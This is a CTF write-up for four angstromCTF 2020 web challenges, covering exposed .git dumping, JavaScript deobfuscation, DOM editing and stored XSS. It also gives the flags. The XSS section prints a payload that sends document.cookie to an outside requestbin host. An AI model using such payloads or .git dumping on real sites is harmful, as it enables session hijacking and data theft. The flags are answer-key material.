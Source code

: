 # angstromCTF 2020
### This is our writeups for ångstromCTF 2020.
![angstrom-3e0d6c871da7786e59fcc988735f4f5ded75aab5fac89f538291b3ef033801eb](https://user-images.githubusercontent.com/36403473/77215806-d4b45380-6b1e-11ea-8853-b9539e6bc4d0.png)

i participated in ångstromCTF 2020 with my awesome team P1rates as python_4004 & my dude mokey  . This is our writeups about some challenges we solved during the competition.

# Web challenges 
## Git Good
 Noting the name of the challenge, I think the system is based on git mangement system 
 But I have to make sure first , so i will use dirb tool
![dirb](https://user-images.githubusercontent.com/36403473/77215204-85205880-6b1b-11ea-9ca2-a46a3b8c8347.png)

now lets try to download git files 
to do that open your terminal and write 
git clone +the link of the challenge 
##### <code> <b> git clone https://gitgood.2020.chall.actf.co/.git </b> </code> 
![Screenshot from 2020-03-21 02-37-29](https://user-images.githubusercontent.com/36403473/77215565-5f944e80-6b1d-11ea-9f41-b7f8d0feba48.png)
The first thing I thought about was looking at the log file
##### <code> <b>git log -p</b> </code>
![Screenshot from 2020-03-21 02-41-08](https://user-images.githubusercontent.com/36403473/77215657-037dfa00-6b1e-11ea-8edf-e4d6b2588f11.png)
yup i found the flag 
#### actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
## Consolation

by clicking on <b> pay my some money </b> it call <b> nofret() </b> function so let's see  source code  
![Screenshot from 2020-03-21 03-36-56](https://user-images.githubusercontent.com/36403473/77216945-2f51ad80-6b27-11ea-8634-b35ee7b33fe3.png)

okey i found that javascript is obfuscated.
so we need to revesre this code ,i use this online platform to decode our obfuscated js file <b> http://www.jsnice.org/ </b>

![Screenshot from 2020-03-21 03-46-10](https://user-images.githubusercontent.com/36403473/77216996-86578280-6b27-11ea-808b-fe5a8a3fb972.png)

looking very well i found ohh lets delete this line and put thit function on console <b>console ["clear"] ();</b>

![Screenshot from 2020-03-21 04-02-07](https://user-images.githubusercontent.com/36403473/77217187-2feb4380-6b29-11ea-9442-0a00b9398630.png)

yup i found it 
#### <b> actf{you_would_n0t_beli3ve_your_eyes} </b>

## The Magic Word

it was very easy challenge what you should do only open <b>inspect</b>  and Change <b> "give flag" </b> to <b> "please give flag" </b>
![Screenshot from 2020-03-21 04-07-53](https://user-images.githubusercontent.com/36403473/77217291-fff07000-6b29-11ea-8a41-ac63fdd4ef62.png)
our flag is :
#### <b> actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd} </b>

## Xmas Still Stands

This was an easy <b> xss stored </b>  challenge given the following:
 
first i post this post <img src=x onerror='requestbin?cookie='+document.cookie>
i use requestbin to get admin cookies 
![Screenshot from 2020-03-21 04-26-16](https://user-images.githubusercontent.com/36403473/77217832-1e586a80-6b2e-11ea-9c2c-020f7d1e9376.png)

i reported my post to admin , checking my requestbin i found the flag 

![9d2b4cb0-d98d-4053-a165-341fc82d376d](https://user-images.githubusercontent.com/36403473/77217880-9faffd00-6b2e-11ea-8e50-b45a691fbb00.jpeg)

yup the flag is : 
#### <b>actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds} </b>
